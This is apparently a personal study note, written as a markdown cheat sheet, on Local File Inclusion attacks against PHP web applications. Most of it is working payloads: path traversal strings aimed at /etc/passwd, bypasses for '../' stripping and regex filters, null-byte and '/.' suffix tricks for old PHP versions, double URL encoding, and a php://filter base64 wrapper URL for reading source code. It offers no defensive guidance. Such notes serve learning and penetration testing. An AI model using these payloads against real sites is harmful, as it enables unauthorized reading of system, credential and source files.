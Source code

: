 # Local File Inclusion

## Directory path traversal

````txt
../../../../../../etc/passwd
````

-----

### Add multiples characters

When you imagine that exist a replace of "../" to "" you can avoid this with:

````txt
....//....//....//....//....//....//
````

If the replace only drop "../" remain ../ because are double

--------

### When the developer use regular expression

If you detect that is used regular expression you can play with this:

````txt
/etc//////passwd
/etc/./././passwd

````

Or you can use wildcard ( **?** )  to avoid this restriction

````txt
/etc/pass?d
````

---

### When the developer add an extension to the url | null byte injection

**Important**

> The version of php will be less than 5.3.8 or 5.3

If you think that the developer concat a extension when you put the file you can use a null byte:

````bash
../etc/passwd%00
````

%00 is equal to \\0

if the program have to validate that have the extension indicate you can try:

````bash
../etc/passwd%00.jpg
````

---

## Some developer use this script

If the last 6 characters are passwd you don't see nothing

````php
 php -r 'if(substr($argv[1],-6,6)!="passwd") include($argv[1]);' '/etc/passwd'; echo
````

but if you put /etc/hosts, you can see them 

One way to bypass this script in **previous version of php** is that:

> /etc/passwd/.

````php
 php -r 'if(substr($argv[1],-6,6)!="passwd") include($argv[1]);' '/etc/passwd/.'; echo
````

Other example will be this:
We have a validation that prohibit to see all the files that ends in .txt

But if we use **/.** we can bypass this validation
````php
 php -r 'if(substr($argv[1],-4,4)!=".txt") include($argv[1]);' '/tmp/test.txt/.'; echo
````

----

# URL encode

We can URL encode **TWO TIMES** if we have the suspicious if they decode the input

````
../../../../../../..//etc/passwd 
````

````
%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66/etc/passwd
````

----

## Using wrappers

Imagine that you want to see the code of php pages, you can refer to the website using **base64 [[Wrappers]]** like this:

Remember when the php code is in base64 is not being interpreted

````python
http://localhost:8081/index.php?page=php://filter/convert.base64-encode/resource=index.php
````


Seguir por: 
==35:15==

----

# Tags

#lfi #wrappers 

---